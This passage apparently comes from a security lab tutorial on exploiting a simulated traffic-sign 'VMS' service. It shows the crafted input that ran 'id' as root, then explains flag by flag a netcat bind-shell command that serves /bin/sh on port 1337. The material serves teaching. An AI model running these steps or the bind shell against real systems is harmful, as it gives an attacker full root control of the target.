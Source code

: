 So far everything seems to be in order.  We haven't actually triggered our exploit yet.  The VMS Administrative Interface allows us to set the message of the day to whatever we want if we have the correct password.  We just chose to set the message to say 'id' to all the drivers passing by.

Now it is time to trigger the exploit.  Send in the buffer you just crafted and you should see output that resembles what is below.  Note that in the example below the actual command is replaced with the `0xDEADBEEF` example.

```
student@revm:~$ python -c 'print "AAAAAAAA\xEF\xBE\xAD\xDEAAAAAAAA\xEF\xBE\xAD\xDE"' | nc 127.0.0.1 5555
The message of the day is: id

If you enter the correct password you can change the message of the day.

password: student@revm:~$ 
```

What we see here should match our expectations.  We received no indication that the supplied password was incorrect (or correct) and we did not receive another password prompt from the server.  Also, the connection was immediately terminated after sending the input.

However, if you inspect the console of the VMS system you should see the following text.

```
uid=0(root) gid=0(root)
```

This is an indication that, using our exploit, we were able to execute a shell command on the VMS system!

We're almost there, but simply running the `id` command in the shell isn't exactly something that demonstrates we can violate the confidentiality and integrity of the VMS system.

Let's consider the following command which starts a `netcat` listener on TCP port 1337 and runs the `/bin/sh` program when a connection is made.  `netcat` (a.k.a. `nc`) is a utility used for reading and writing to TCP or UDP network sockets.  The tool can be used for various types of network administration tasks, debugging of network services, and transferring data (e.g. files).  The tool is quite simple yet very powerful.

```
nc -lnv -p 1337 -e /bin/sh
```

The `-l` option tells `nc` to run in listen mode and accept inbound connections.  The `-n` option tells `nc` to not use IP addresses and not use DNS (typically in an attack scenario you don't need to resolve names via DNS and you want to avoid that type of additional traffic anyway).  The `-v` option tells `nc` to run in verbose mode so it will print out a message when a new connection arrives (this will be helpful in our testing).  The `-p` option tells `nc` to listen on port `1337` (we did not specify the `-u` option for UDP so netcat will use TCP port `1337`).  The `-e` option tells `nc` to execute `/bin/sh`, the shell program, when a new connection is received.  Input from the client will be passed to `/bin/sh` and output from `/bin/sh` will be passed back from the client.  Because the `signApp` process was running as `root` the attacker will be able to interact with the shell and execute whatever commands they want.  As `root`, the attacker can fully compromise the confidentiality, integrity, and availability of the target system!

> The [original `netcat` implementation](http://nc110.sourceforge.net/) supports an appropriately named  `-DGAPING_SECURITY_HOLE` compile time option.  This compile option enables the `-e` argument which allows a program to execute after making or receiving a connection.  Clearly this is dangerous because it allows for any program, like a shell, to have its input and output attached to the network.
>
> The VMS uses the [BusyBox implementation of `nc`](https://busybox.net/downloads/BusyBox.html#nc) which supports the `-e` argument.
>
> Use of `netcat`, and especially support for the `-e` argument, should be avoided in production systems.  There are ways to enable the `-e` like behavior even if support for it is not built in and also ways to achieve other `netcat` capabilities without netcat at all.  For that, refer to the "[Netcat without -e? No Problem!](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem#)" posting by Ed Skoudis.